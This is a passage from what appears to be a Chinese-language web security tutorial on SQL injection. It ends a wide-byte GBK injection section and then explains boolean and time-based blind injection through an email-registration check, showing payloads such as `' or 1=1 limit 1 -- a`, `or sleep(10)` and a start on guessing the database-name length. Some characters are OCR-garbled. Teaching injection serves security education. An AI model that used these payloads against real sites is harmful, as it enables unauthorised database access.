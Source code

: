 `e5a5bd`与`\`符号`5c`拼接后，数据库gbk编码会将其拆分为`e5a5`和`bd5c`，字符`å¥岽`;

-----

__tip:__
1. 网页默认编码为gbk，数据库编码大概率也是gbk。
2. 使用hex拼接，若传参方式不是url，则需要抓包修改数据包。

# 盲注
{docsify-updated}
## 定义
查询内容无回显的情况下，根据布尔值盲猜ascii码

>例如：注册账号时，查询邮箱是否已被注册
>
> ```sql
> select * from user where email='1@1.com'
> ```
> 显示：该邮箱可以使用

## 获取注入点


### 检验布尔注入

 ```
 select * from user where email='1@1.com' or 1=1 limit 1 -- a'
 ```
> 成功则显示：该邮箱已被注册

 ```
 select * from user where email='1@1.com' or 1=2 limit 1 -- a'
 ```

> 成功则显示：该邮箱可以使用

### 检验延迟注入

 ```
 select * from user where email='1@1.com' or sleep(10) -- a'
 ```
> 成功则显示：该邮箱可以使用

## 利用注入点
### 爆破库名
#### step1: 爆破库名长度
 ```
 select * from user where email='1@1.com' 
 or length(database())>5 limit 1 -- a'
 ```
> 输出:该邮箱可以使用 //false,库名长度小于等于5

